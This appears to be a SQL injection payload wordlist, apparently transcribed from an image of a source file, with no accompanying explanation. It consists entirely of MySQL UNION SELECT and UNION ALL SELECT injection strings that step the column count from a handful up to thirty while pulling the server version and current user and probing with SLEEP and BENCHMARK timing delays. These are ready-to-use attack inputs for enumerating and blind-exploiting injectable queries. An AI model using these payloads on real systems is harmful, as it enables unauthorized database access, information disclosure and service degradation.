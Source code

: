      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
     UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
     UNION ALL SELECT USER()-- 
     UNION ALL SELECT SLEEP(5)-- 
     UNION ALL SELECT USER(),SLEEP(5)-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5)-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A'))-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
     UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 